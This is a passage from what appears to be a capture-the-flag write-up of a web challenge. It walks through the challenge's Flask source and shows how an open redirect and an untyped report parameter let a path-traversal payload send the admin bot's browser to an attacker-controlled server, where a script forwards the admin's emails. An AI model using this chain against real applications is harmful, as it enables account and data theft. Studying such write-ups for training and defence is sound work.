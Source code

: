 To execute our script within the server, we need to understand the initial vulnerabilities of the application.

Starting with the code `./challenge/application/blueprints/routes.py`. We can validate that the `/challenge/external` endpoint receives the url parameter and redirects to it.
```python
@web.route('/external')
def external():
    url = request.args.get('url', '')

    if not url:
        return redirect('/')
    
    return redirect(url)
```

In the code `./challenge/application/blueprints/api.py`.
```python
@api.route('/report', methods=['POST'])
@isAuthenticated
@isVerified
@antiCSRF
@sanitizeInput
def reportProduct(decodedToken):
    productID = request.form.get('id', '')
   
    if not productID:
        return response('All fields are required!'), 401
    
    adminUser = getUser('1')

    params = {'productID': productID, 'email': adminUser['email'], 'password': adminUser['password']}

    requests.get('http://127.0.0.1:8082/visit', params=params)

    return response('Report submitted! Our team will review it')
```

We can see that the productId parameter is not typed, so we can send any type of information to the application, including a `string`. That means, we can send the following code: `../external?url={YOUR_SERVER}` which will be sent to the bot `/visit`.

In the bot, the `productID` is concatenated in the URL. When our `productID` is concateneted, the `client.get` will try to open the following URL: `http://127.0.0.1:1337/challenge/product/../external?url={YOUR_SERVER}`.

This way, the admin's browser will be redirected to our server, and the script will be started, opening a websocket connection and redirecting all received emails to our server.
`./bot/app.py`
```python
@app.route('/visit')
def visit():
    productID = request.args.get('productID')
    email = request.args.get('email')
    password = request.args.get('password')

    thread = threading.Thread(target=bot, args=(productID, email, password))
    thread.start()
    return 'OK'

def bot(productID, email, password):
    chrome_options = Options()

    prefs = {
    "download.prompt_for_download": True,
    "download.default_directory": "/dev/null"
```